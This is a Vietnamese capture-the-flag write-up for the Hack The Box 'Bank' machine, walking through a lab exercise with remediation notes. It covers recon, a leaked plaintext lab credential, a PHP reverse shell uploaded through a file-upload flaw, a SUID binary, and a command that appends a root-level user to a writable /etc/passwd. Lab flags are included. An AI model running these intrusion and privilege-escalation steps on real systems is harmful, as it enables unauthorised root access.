







# Thông tin máy 


> [!NOTE]
> Mức độ: Dễ
> Nền tảng: Linux
> Url: https://app.hackthebox.com/machines/Bank
> Mô tả: Ngân hàng là một hệ thống tương đối đơn giản, tuy nhiên việc liệt kê dữ liệu trên web một cách chính xác là chìa khóa để tìm ra dữ liệu cần thiết cho việc nhập liệu. Ngoài ra còn tồn tại một phương thức nhập liệu ngoài ý muốn, mà nhiều người dùng phát hiện ra trước khi tìm thấy dữ liệu chính xác.
# Recon

## Port Scan

```bash
nmap -sSVC -Pn 10.129.29.200
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-15 00:03 -0400
Nmap scan report for 10.129.29.200
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.73 seconds
```

- Kết quả phát hiện 3 dịch vụ SSH, HTTP, DNS

| Port | Service | Version                           |
| ---- | ------- | --------------------------------- |
| 22   | SSH     | OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 |
| 53   | DNS     | ISC BIND 9.9.5-3ubuntu0.14        |
| 80   | HTTP    | Apache httpd 2.4.7                |

## DNS

> Liệt kê các tên miền bank.htb phát hiện các tên miền phụ chris.bank.htb, ns.bank.htb

```
dig any bank.htb @10.129.29.200
```

```

; <<>> DiG 9.20.27-2-Debian <<>> any bank.htb @10.129.29.200
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 43139
;; flags: qr aa rd; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;bank.htb.                      IN      ANY

;; ANSWER SECTION:
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 6 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.129.29.200

;; ADDITIONAL SECTION:
ns.bank.htb.            604800  IN      A       10.129.29.200

;; Query time: 64 msec
;; SERVER: 10.129.29.200#53(10.129.29.200) (TCP)
;; WHEN: Thu Oct 15 00:37:34 EDT 2026
;; MSG SIZE  rcvd: 128
```

## Web Service 

> Truy cập trang chủ của web chúng ta được chuyển hướng đến trang /login.php



- Bắt gói tin gói response có mã 302 schuyeern 


- Sửa đổi response http thành 200 OK sẽ truy cập được trang chủ, trang chủ cũng không có thông tin gì đáng chú ý 


> Liệt kê tệp, thư mục ẩn phát hiện đường dẫn /balance-transfer đáng chú ý 

```bash
└─$ feroxbuster -u http://bank.htb/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt -t 250 -d 1 -C 404
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://bank.htb/
 🚩  In-Scope Url          │ bank.htb
 🚀  Threads               │ 250
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       10l       30w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l      287w    16994c http://bank.htb/assets/js/sweetalert.min.js
301      GET        9l       28w      304c http://bank.htb/assets => http://bank.htb/assets/
200      GET        7l      432w    37045c http://bank.htb/assets/js/bootstrap.min.js
200      GET        4l     1412w    95785c http://bank.htb/assets/js/jquery.js
301      GET        9l       28w      301c http://bank.htb/inc => http://bank.htb/inc/
302      GET      188l      319w     7322c http://bank.htb/ => login.php
301      GET        9l       28w      305c http://bank.htb/uploads => http://bank.htb/uploads/
301      GET        9l       28w      314c http://bank.htb/balance-transfer => http://bank.htb/balance-transfer/
[####################] - 13m  1185255/1185255 0s      found:8       errors:3112   
[####################] - 13m  1185240/1185240 1492/s  http://bank.htb/   
```

> Truy cập /balance-transfer chứa các bản ghi đã mã hóa của thông tin xác thực 




> Trong đó có 1 tệp có kích thước nhỏ hơn hẳn các tệp khác và chứa thông tin xác thực chưa được mã hóa (mã hóa lỗi)



```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

# Exploit

> Truy cập máy mục tiêu bằng cách khai thác lỗ hổng File Upload qua /support cho phép tải lên 1 file có thể thực thi với đuôi .htb được ghi chú trong mã nguồn 
> Tải lên 1 php reverse shell và mở cổng lắng nghe kết nối 





> Mở cổng lắng nghe kết nối 

```bash
└─$ nc -lnvp 4444               
listening on [any] 4444 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.29.200] 60838
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 10:48:37 up  4:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> User Flag

```bash
www-data@bank:/home$ cd chris/
www-data@bank:/home/chris$ ls -al
total 28
drwxr-xr-x 3 chris chris 4096 Jan 11  2021 .
drwxr-xr-x 3 root  root  4096 Jan 11  2021 ..
lrwxrwxrwx 1 root  root     9 Jan 11  2021 .bash_history -> /dev/null
-rw-r--r-- 1 chris chris  220 May 28  2017 .bash_logout
-rw-r--r-- 1 chris chris 3637 May 28  2017 .bashrc
drwx------ 2 chris chris 4096 Jan 11  2021 .cache
-rw-r--r-- 1 chris chris  675 May 28  2017 .profile
-r--r--r-- 1 chris chris   33 Oct 15 06:46 user.txt
www-data@bank:/home/chris$ cat user.txt 
be83bd10f40fc631b56dc2e88d4e5823
```
# Privilege Escalation

> Liệt kê các file có thiết lập SUID phát hiện /var/htb/bin/emergency sau khi thực thi có được shell với đặc quyền root
> 
```
www-data@bank:/tmp$ find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

```
www-data@bank:/tmp$ /var/htb/bin/emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# whoami
root
```

> Cách 2 là chúng ta có quyền ghi vào tệp /etc/passwd
> Tạo 1 bản ghi người dùng với hash pass và ghi vào /etc/passwd 

- Tạo hash SHA-512 của mật khẩu "hacker"
```
└─$ mkpasswd -m SHA-512 hacker
$6$7orXKhrOM/GnzyYa$u01kQ4tazLfX6z93LJq.F4O/JAskywf8V3IviMqIiXqypdgj/9bHMdBYrIGA5Z.W6AiBfcVyvBDJ6ydIIBVMw1
```
- Ghi vào /etc/passwd và chuyển đổi sang người dùng có quyền root
```bash
www-data@bank:/$ echo hacker:$6$7orXKhrOM/GnzyYa$u01kQ4tazLfX6z93LJq.F4O/JAskywf8V3IviMqIiXqypdgj/9bHMdBYrIGA5Z.W6AiBfcVyvBDJ6ydIIBVMw1:0:0:Hacker:/root:/bin/bash >> /etc/passwd
www-data@bank:/$ su hacker
Password: 
root@bank:/# id
uid=0(root) gid=0(root) groups=0(root)
root@bank:/# whoami
root
```

- Root Flag
```
ec6dd4154a9f10c0f147083f9b9ee485
```
# Kết luận

> [!NOTE]
> Đây là 1 phòng có mức độ dễ 
> Khai thác lỗ hổng lộ thông tin xác thực, File Upload từ đó tạo 1 reverse shell truy cập hệ thống
> Leo thang đặc quyền do cấu hình có quyền ghi, thực thi các tệp nhạy cảm 
> - Khắc phục:
>   + Xóa bỏ/ Mã hóa bản ghi chứa thông tin xác thực bản rõ
>   + Loại bỏ tính năng tải nên tệp có thể thực thi 
>   + Tối thiểu hóa quyền các tệp nhạy cảm 